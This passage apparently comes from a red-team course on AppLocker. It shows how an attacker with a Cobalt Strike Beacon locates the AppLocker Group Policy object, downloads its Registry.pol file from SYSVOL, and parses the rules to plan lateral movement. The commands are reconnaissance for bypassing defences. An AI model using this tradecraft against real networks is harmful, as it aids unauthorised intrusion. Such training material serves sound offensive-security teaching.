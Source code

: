 ```batch
UserOrGroupSid      : S-1-1-0
Action              : Allow
```

#### GPO <a href="#el_1743164907184_1127" id="el_1743164907184_1127"></a>

Enumerating AppLocker policies from the GPO is useful in scenarios where you already have a Beacon running on an unprotected machine, but you're trying to move laterally to a protected machine.  Your best bet for finding the correct GPO is to enumerate them all and go based on their names.  Alternatively, you can walk through each container in SYSVOL (e.g. `\\contoso.com\SYSVOL\contoso.com\Policies`) and look for `Registry.pol` files in the **Machine** directory.

```batch
beacon> ldapsearch (objectClass=groupPolicyContainer) --attributes displayName,gPCFileSysPath

--------------------
displayName: AppLocker
gPCFileSysPath: \\contoso.com\SysVol\contoso.com\Policies\{8ECEE926-7FEE-48CD-9F51-493EB5AD95DC}
--------------------

beacon> ls \\contoso.com\SysVol\contoso.com\Policies\{8ECEE926-7FEE-48CD-9F51-493EB5AD95DC}\Machine

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     03/29/2025 10:47:29   Microsoft
          dir     03/29/2025 10:47:27   Scripts
 8kb      fil     03/29/2025 10:48:02   Registry.pol

beacon> download \\contoso.com\SysVol\contoso.com\Policies\{8ECEE926-7FEE-48CD-9F51-493EB5AD95DC}\Machine\Registry.pol
[*] started download of \\contoso.com\SysVol\contoso.com\Policies\{8ECEE926-7FEE-48CD-9F51-493EB5AD95DC}\Machine\Registry.pol (8216 bytes)
[*] download of Registry.pol is complete
```

Once sync'd to your desktop, the file can be read using the `Parse-PolFile` cmdlet from the [GpRegistryPolicy](https://www.powershellgallery.com/packages/GPRegistryPolicy/0.3) module.

```batch
PS C:\Users\Attacker> Parse-PolFile -Path .\Desktop\Registry.pol

KeyName     : Software\Policies\Microsoft\Windows\SrpV2\Exe\921cc481-6e17-4653-8f75-050b80acca20
ValueName   : Value
ValueType   : REG_SZ
ValueLength : 736
ValueData   : <FilePathRule Id="921cc481-6e17-4653-8f75-050b80acca20" Name="(Default Rule) All files located in the
              Program Files folder" Description="Allows members of the Everyone group to run applications that are
              located in the Program Files folder." UserOrGroupSid="S-1-1-0"
              Action="Allow"><Conditions><FilePathCondition Path="%PROGRAMFILES%\*"/></Conditions></FilePathRule>
```
